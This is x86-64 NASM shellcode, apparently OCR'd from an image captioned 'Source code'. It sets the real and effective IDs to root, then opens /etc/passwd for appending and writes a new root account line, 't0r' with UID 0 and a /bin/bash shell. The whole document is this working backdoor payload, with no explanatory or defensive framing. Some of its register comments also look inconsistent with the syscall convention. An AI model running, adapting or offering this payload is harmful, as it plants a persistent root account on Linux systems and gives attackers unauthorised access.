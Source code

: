 ```nasm
mov al, 113   ;syscall sys_setreuid
xor rbx, rbx  ;arg 1 -- set real uid to root
mov rcx, rbx  ;arg 2 -- set effective uid to root
syscall
;sys_setregid(uint rgid, uint egid)
xor rax, rax
mov al, 114   ;syscall sys_setregid
xor rbx, rbx  ;arg 1 -- set real uid to root
mov rcx, rbx  ;arg 2 -- set effective uid to root
syscall
;push all strings on the stack prior to file operations.
xor rbx, rbx
mov ebx, 0x647773FF
shr rbx, 8
push rbx                     ; \00dws
mov rbx, 0x7361702f6374652f
push rbx                     ; sap/cte/
mov rbx, 0x0A687361622F6EFF
shr rbx, 8
push rbx                     ; \00\nhsab/n
mov rbx, 0x69622F3A746F6F72
push rbx                     ; ib/:toor
mov rbx, 0x2F3A3A303A303A67
push rbx                     ; /::0:0:g
mov rbx, 0x46556B554B587435
push rbx                     ; FUkUKXt5
mov rbx, 0x546755333A723074
push rbx                     ; TgU3:r0t
;prelude to doing anything useful...
mov rbx, rsp      ;save stack pointer for later use
push rbp          ; base pointer to stack so it can be restored later
mov rbp, rsp      ;set base pointer to current stack pointer
;sys_open(char* fname, int flags, int mode)
sub rsp, 16
mov [rbp - 16], rbx ;store pointer to "t0r..../bash"
mov si, 0x0401    ;arg 2 -- flags
mov rdi, rbx
add rdi, 40       ;arg 1 -- pointer to "/etc/passwd"
xor rax, rax
mov al, 2       ;syscall sys_open
syscall
;sys_write(uint fd, char* buf, uint size)
mov [rbp - 4],  eax     ;arg 1 -- fd is retval of sys_open. save fd to stack for later use.
mov rcx, rbx     ;arg 2 -- load rcx with pointer to string "t0r.../bash"
xor rdx, rdx
mov dl, 39      ;arg 3 -- load rdx with size of string "t0r.../bash\00"
mov rsi, rcx     ;arg 2 -- move to source index register
mov rdi, rax     ;arg 1 -- move to destination index register
xor rax, rax
mov al, 1               ;syscall sys_write
syscall
;sys_close(uint fd)
xor rdi, rdi
mov edi, [rbp - 4]   ;arg 1 -- load stored file descriptor to destination index register
xor rax, rax
mov al, 3       ;syscall sys_close
syscall
;sys_exit(int err_code)
xor rax, rax
mov al, 60          ;syscall sys_exit
xor rbx, rbx         ;arg 1 -- error code
syscall
```